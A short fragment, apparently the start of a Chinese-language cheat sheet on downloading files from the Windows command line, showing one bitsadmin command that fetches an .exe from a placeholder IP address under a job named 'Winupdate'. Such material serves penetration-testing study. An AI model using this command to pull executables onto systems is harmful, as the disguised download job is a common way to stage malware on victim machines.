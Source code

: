 #一、下载文件
##1、cmd
###（1）bitsadmin
```
bitsadmin /transfer Winupdate /download http://xx.xx.xx.xx/example.exe "c:\users\***\desktop\example.exe"
```
